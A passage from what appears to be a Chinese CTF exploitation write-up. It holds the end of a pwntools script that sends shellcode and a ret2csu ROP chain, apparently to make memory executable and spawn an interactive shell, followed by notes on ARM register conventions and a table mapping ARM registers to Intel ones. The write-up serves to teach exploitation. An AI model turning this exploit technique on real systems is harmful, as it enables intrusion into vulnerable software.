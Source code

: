 ```python

    raw_input("DEBUG: ")
    io.sendafter("Name:", padding * 0x10 + sc)
    sleep(0.01)

    payload = flat(cyclic(72), csu_rop(elf.got['__gmon_start__'], 0x411000, 0x1000, 7))
    payload += flat(0x411068)
    sleep(0.01)
    io.send(payload)

    io.interactive()
```

# 4.tips

1. 子程序间通过寄存器**R0～R3**来**传递参数**。这时，寄存器R0～R3可记作arg0～arg3。**被调用的子程序在返回前无需恢复寄存器R0～R3的内容，R0被用来存储函数调用的返回值**。
2. 在子程序中，使用寄存器**R4～R11**来**保存局部变量**。这时，寄存器R4～R11可以记作var1～var8。如果在子程序中使用了寄存器v1～v8中的某些寄存器，则**子程序进入时必须保存这些寄存器的值，在返回前必须恢复这些寄存器的值**。**R7经常被用作存储系统调用号，R11存放着帮助我们找到栈帧边界的指针，记作FP**。在Thumb程序中，通常只能使用寄存器R4～R7来保存局部变量。
3. 寄存器**R12**用作**过程调用中间临时寄存器**，记作IP。在子程序之间的连接代码段中常常有这种使用规则。
4. 寄存器**R13**用作**堆栈指针**，记作SP。在子程序中寄存器R13不能用作其他用途。**寄存器SP在进入子程序时的值和退出子程序时的值必须相等**。
5. 寄存器**R14**称为**连接寄存器**，记作LR。它用于**保存子程序的返回地址**。如果在子程序中保存了返回地址，寄存器R14则可以用作其他用途。
6. 寄存器**R15**是**程序计数器**，记作PC。它不能用作其它用途。当执行一个分支指令时，**PC存储目的地址。在程序执行中，ARM模式下的PC存储着当前指令加8(两条ARM指令后)的位置，Thumb(v1)模式下的PC存储着当前指令加4(两条Thumb指令后)的位置**。

| ARM架构 寄存器名 | 寄存器描述     | Intel架构 寄存器名      |
| ---------------- | -------------- | ----------------------- |
| R0               | 通用寄存器     | EAX                     |
| R1~R5            | 通用寄存器     | EBX、ECX、EDX、EDI、ESI |
| R6~R10           | 通用寄存器     | 无                      |
| R11(FP)          | 栈帧指针       | EBP                     |
| R12(IP)          | 内部程序调用   | 无                      |
| R13(SP)          | 堆栈指针       | ESP                     |
| R14(LP)          | 链接寄存器     | 无                      |
| R15(PC)          | 程序计数器     | EIP                     |
| CPSR             | 程序状态寄存器 | EFLAGS                  |